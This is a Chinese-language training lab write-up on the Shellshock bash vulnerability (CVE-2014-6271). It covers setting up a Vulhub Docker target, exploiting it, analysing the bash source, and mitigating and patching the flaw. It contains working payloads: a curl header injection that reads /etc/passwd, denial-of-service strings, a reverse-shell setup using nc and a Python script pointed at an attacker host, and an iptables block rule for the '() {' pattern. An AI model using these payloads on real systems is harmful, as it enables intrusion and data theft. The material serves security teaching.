

# 漏洞攻防实训_CVE-2014-6271
## 一、靶场环境构建

使用了docker和docker-compose

### （1）docker与docker-compose的安装

- 使用APT安装
```

sudo apt-get update

sudo apt-get install \
    apt-transport-https \
    ca-certificates \
    curl \
    software-properties-common

```
- 为了确认所下载软件包的合法性，需要添加软件源的 GPG 密钥。

```
curl -fsSL https://mirrors.ustc.edu.cn/docker-ce/linux/ubuntu/gpg | sudo apt-key add -
```
- 向 source.list 中添加 Docker 软件源

```
sudo add-apt-repository \
    "deb [arch=amd64] https://mirrors.ustc.edu.cn/docker-ce/linux/ubuntu \
    $(lsb_release -cs) \
    stable"
```
- 安装 Docker CE

```
sudo apt-get update
sudo apt-get install docker-ce


```
- 配置镜像加速器

1. 在 /etc/docker/daemon.json 中写入如下内容
```
#在 /etc/docker/daemon.json 中写入如下内容
{
  "registry-mirrors": [
    "https://registry.docker-cn.com"
  ]
}
```
2.重新启动服务

```
sudo systemctl daemon-reload
sudo systemctl restart docker
```


- 安装Docker-compose

```
sudo curl -L https://github.com/docker/compose/releases/download/1.17.1/docker-compose-`uname -s`-`uname -m` > /usr/local/bin/docker-compose
sudo chmod +x /usr/local/bin/docker-compose
```
### （2）使用 Vulhub 一键搭建漏洞测试靶场
- 下载Vulhub

```
git clone https://github.com/vulhub/vulhub.git
```
- 编译运行Shellshock环境

```
cd vulhub/bash/shellshock
docker-compose build
docker-compose up -d
```


## 二、漏洞利用实战
通过查看Vulhub的Dockerfile发现，该环境下载了漏洞版本的bash-4.3，在Docker内配置了实验所需工具。


- bash使用的环境变量是通过函数名称来调用的，且输入的过滤中没有严格限制边界，没有做合法化的参数判断
- 以“(){”开头定义的环境变量在命令ENV中解析成函数后，Bash执行并未退出，而是继续解析并执行shell命令

### （1）手工利用漏洞

- 远程获取/etc/passwd文件内容

```
curl -H 'x: () { :;};a=`/bin/cat /etc/passwd`;echo $a' '192.168.203.3/victim.cgi' -I
```


### （2）脚本化利用漏洞
- 运行shell_shocker.py可运行全路径的bash指令

[Code :shell_shocker](Code/shell_shocker.py)

原理：向cgi发送构造好的数据包


可实现文件写入、删除、更改权限


- The No-Malware Reverse Shell Technique

1.攻击者监听自己机器的端口

```
nc -l -p 4444
```

2.运行python脚本


```
python shellpoc.py <host> <vulnerable CGI> <attackhost/IP>
```

[Code :reverse shell](Code/shellpoc.py)

能够执行不需要权限的操作：


能够读取文件，但无法创建文件


## 三、漏洞原理分析
### 以bash-4.2版本的源代码为例进行分析

**\bash-3.2\builtins\evalstring.c**

- evalstring.c中如下代码未对传入的command做边界检查：

```
else if (command = global_command)
{
struct fd_bitmap *bitmap;

bitmap = new_fd_bitmap (FD_BITMAP_SIZE);
begin_unwind_frame ("pe_dispose");
add_unwind_protect (dispose_fd_bitmap, bitmap);
add_unwind_protect (dispose_command, command);    /* XXX */

global_command = (COMMAND *)NULL;
```
**\bash-3.2\variables.c**

> 负责对bash中的变量进行解析
- initialize_shell_variables对环境变量中的代码进行了执行，由于它错误的信任的外部发送的数据，形成了和SQL注入类似的场景。

- 黑客只要满足2个条件就可以进行漏洞利用：
1. 控制发送的参数，并在其中拼接payload；
2. 黑客发送的包含payload的参数会被无条件的执行，而执行方不进行任何的边界检查
```
parse_and_execute (temp_string, name, SEVAL_NONINT|SEVAL_NOHIST);

/* Ancient backwards compatibility. Old versions of bash exported
functions like name()=() {...} */
if (name[char_index - 1] == ')' && name[char_index - 2] == '(')
name[char_index - 2] = '\0';

if (temp_var = find_function (name))
{
VSETATTR (temp_var, (att_exported|att_imported));
array_needs_making = 1;
}
else
report_error (_("error importing function definition for `%s'"), name);

/* ( */
if (name[char_index - 1] == ')' && name[char_index - 2] == '\0')
name[char_index - 2] = '(';    /* ) */
}
```
- CWE（弱点项目）：
     - CWE-78	 
     - OS命令中使用的特殊元素转义处理不恰当（OS命令注入）
## 四、漏洞影响分析
### （1）查看或自己分析目标漏洞的 CVSS 评分

Object | Rank | Meaning
---|---|---
CVSS分值 | 	10 | 严重(HIGH)
机密性影响 |	COMPLETE | 完全的信息泄露导致所有系统文件暴露
完整性影响 | 	COMPLETE| 系统完整性可被完全破坏
可用性影响 | 	COMPLETE| 可能导致系统完全宕机
攻击复杂度 | LOW| 漏洞利用没有访问限制
攻击向量 | 	NETWORK | 攻击者不需要获取内网访问权或本地访问权
身份认证 | 	NONE|漏洞利用无需身份认证


### (2)最大化漏洞利用效果
#### 1.拒绝服务

(1) 远程让进程休眠
```
#通过构造带有如下字段的数据包，远程让进程休眠
() { :;}; /bin/sleep 20|/sbin/sleep 20|/usr/bin/sleep 20

```
>服务会短暂地中断，同理若多次发送包含这样字段的数据包就能造成服务器拒绝服务。
   
(2) 远程让进程休眠 
```
#通过构造带有如下字段的数据包，让目标主机发送ping包
() { :; }; ping -s 35456 <victim IP>

```


#### 2.信息泄露  
   


#### 3.非最高权限的任意代码执行
> 远程下载一个shell脚本，执行一个echo语句
   
（1）远程下载脚本并赋予可运行权限


（2）利用reverse shell执行代码



#### 4.最高权限的任意代码执行
> 远程下载一个shell脚本，使用apt安装vim

==授权成功，执行失败==
- 将脚本所有者改为root(==失败==)


- 利用reverse shell进行执行（==失败==）


- 修改passwd中daemon权限（==成功==）
> 再次登陆reverse shell，登陆用户改变


## 五、漏洞缓解
- web应用防火墙mod_security（==由于docker缺少权限失败==）

 (1)进入容器内部

```
docker container exec -it [containerID] /bin/bash
```

（2）安装libapache2-modsecurity模块及其依赖包

```
apt-get install libxml2 libxml2-dev libxml2-utils libpcre3 libpcre3-dev libcurl4-openssl-dev zlib1g-dev libtool libapache2-modsecurity
```
（3）查询ModSecurity信息，验证安装是否成功

```
dpkg -s libapache2-modsecurity
```

（4）配置modsecurity，启用拦截模式

```
cd /etc/modsecurity
mv modsecurity.conf-recommended modsecurity.conf
vim modsecurity.conf
```


（5）关联启动文件

```
cd /usr/share/modsecurity-crs/activated_rules
ln -s ../modsecurity_crs_10_setup.conf ./modsecurity_crs_10_setup.conf
tree
```


（6）创建自定义规则


- 设置iptables对于数据包进行过滤(==成功==)

```
#可以使用IPTables字符串匹配试图减少数据包,可以预防一部分的攻击，规则比较死不灵活
iptables -A INPUT -m string --algo bm --hex-string '|28 29 20 7B|' -j DROP
ip6tables -A INPUT -m string --algo bm --hex-string '|28 29 20 7B|' -j DROP
```
##### 效果验证
（1）远程获取/etc/passwd文件内容


（2）reverse shell


## 六、漏洞修补
（1）进入容器内部


```
docker container exec -it [containerID] /bin/bash
```
（2）安装补丁

```
mkdir src
cd src
wget http://ftp.gnu.org/gnu/bash/bash-4.3.tar.gz
#download all patches
for i in $(seq -f "%03g" 1 28); do wget http://ftp.gnu.org/gnu/bash/bash-4.3-patches/bash43-$i; done
tar zxvf bash-4.3.tar.gz 
cd bash-4.3
#apply all patches
for i in $(seq -f "%03g" 1 28);do patch -p0 < ../bash43-$i; done
#build and install
./configure --prefix=/ && make && make install
cd .. 
cd ..
rm -r src
```
（3）修补效果验证
- 远程获取/etc/passwd文件内容


- reverse shell

